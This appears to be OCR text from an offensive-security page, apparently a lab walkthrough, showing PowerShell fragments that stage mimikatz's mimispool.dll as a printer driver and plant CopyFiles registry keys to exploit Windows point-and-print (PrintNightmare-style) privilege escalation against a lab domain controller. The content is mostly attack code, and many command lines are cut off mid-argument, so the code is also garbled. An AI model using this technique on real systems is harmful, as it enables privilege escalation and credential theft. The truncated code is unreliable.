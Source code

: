 **Create a Printer**

**Execute the driver**

```
Service Name: ctxusbm
Path: C:\Windows\system32\DRIVERS\ctxusbm.sys
Version: 14.11.0.138
Creation Time (UTC): 17 / 05 / 2018 01 : 20 : 50
Cert Issuer: CN=Symantec Class 3 SHA256 Code Signing CA, OU=Symantec Trust Network, O=Symantec Corporation, C=US
Signer: CN="Citrix Systems, Inc.", OU=XenApp(ClientSHA256), O="Citrix Systems, Inc."
<SNIP>
```

```
$printerName = 'Universal Priv Printer'
$system32 = $env:systemroot + '\system32'
$drivers = $system32 + '\spool\drivers'
$RegStartPrinter = 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Print\Printers\'
```

```
Copy-Item -Force -Path ($system32 + '\mscms.dll') -Destination ($system32
Copy-Item -Force -Path '.\mimikatz_trunk\x64\mimispool.dll' -Destination ($drivers
Copy-Item -Force -Path '.\mimikatz_trunk\win32\mimispool.dll' -Destination ($drivers
```

```
Add-PrinterDriver -Name 'Generic / Text Only'
Add-Printer -DriverName 'Generic / Text Only' -Name $printerName -PortName
```

```
New-Item -Path ($RegStartPrinter + '\CopyFiles') | Out-Null
New-Item -Path ($RegStartPrinter + '\CopyFiles\Kiwi') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi') -Name 'Directory' -PropertyType
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi') -Name 'Files' -PropertyType
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi') -Name 'Module' -PropertyType
New-Item -Path ($RegStartPrinter + '\CopyFiles\Litchi') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Directory' -PropertyType
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Files' -PropertyType
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Module' -PropertyType
New-Item -Path ($RegStartPrinter + '\CopyFiles\Mango') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango') -Name 'Directory' -PropertyType
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango') -Name 'Files' -PropertyType
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango') -Name 'Module' -PropertyType
```

```
$serverName = 'dc.purple.lab'
$printerName = 'Universal Priv Printer'
```

#### PrinterNightmare

